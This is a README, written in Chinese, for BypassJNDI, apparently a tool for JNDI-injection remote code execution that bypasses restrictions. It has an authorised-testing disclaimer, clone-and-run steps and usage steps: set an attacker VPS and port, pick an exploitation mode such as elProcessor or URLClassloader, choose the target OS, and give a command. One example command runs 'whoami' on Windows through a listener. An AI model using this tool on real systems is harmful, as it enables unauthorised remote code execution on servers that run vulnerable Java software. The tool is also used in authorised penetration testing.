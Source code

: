 # BypassJNDI

### 注意事项

```
1. 使用过程中的 bug 和优化建议欢迎提 issue
2. 配置好 java 环境变量, jdk8+
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```

### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/coolboy0816/BypassJNDI.git
cd BypassJNDI/
java -jar BypassJNDI.jar
```

### 使用效果
![image](https://user-images.githubusercontent.com/30894096/163807285-fe9d467d-78df-4f0e-a5b4-e3015de30d24.png)

### 使用方法
#### 0x00: 指定vps url和开放端口，建议云上主机开启全部端口
#### 0x01: 指定对应model，根据需求选择
#### 0x02: 指定对应目标系统
#### 0x03: 指定对应执行命令（URLClassloader RCE模式下输入vps与classpath）


### 使用截图
```bash
java -jar BypassJndi.jar 192.168.0.58 1099 elProcessor windows whoami
```
![image](https://user-images.githubusercontent.com/30894096/163810335-e0e9f6f5-15f7-4a13-9b64-0e3fd222033d.png)



